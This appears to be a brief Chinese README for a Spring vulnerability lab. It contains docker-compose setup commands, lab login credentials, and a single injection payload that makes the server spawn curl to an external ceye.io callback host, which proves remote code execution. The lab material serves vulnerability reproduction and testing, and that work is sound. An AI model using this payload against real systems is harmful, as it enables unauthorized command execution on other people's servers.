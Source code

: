 URL:https://threathunter.org/topic/593d562353ab369c55425a90

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```
登录账号：keith
登录密码：melbourne

ceye.io测试
&_(new+java.lang.ProcessBuilder("/usr/bin/curl","http://spring.test.ceye.io/")).start()=iswin